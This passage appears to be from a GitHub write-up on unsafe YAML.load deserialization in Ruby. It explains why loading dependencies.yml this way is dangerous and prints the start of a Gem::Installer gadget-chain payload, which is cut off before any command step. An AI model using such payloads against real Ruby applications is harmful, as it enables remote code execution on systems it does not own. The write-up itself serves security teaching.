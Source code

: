 > The problem is in the function of loading and reading the yml file:
> the string here:

```bash

YAML.load(File.read("dependencies.yml"))

```
> **file.read** - reads data from a file with dependencies, and **YAML.load** deserializes this data into Ruby objects.
> the deserialization method itself is not safe, since it allows you to restore any Ruby objects, including built-in classes, such as **Gem::Installer**
> and during the initialization process, call methods that some code executes.

![yaml_payload](./screenshots/yaml_payload.png)


> create file 'dependencies.yml' with follow:

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
```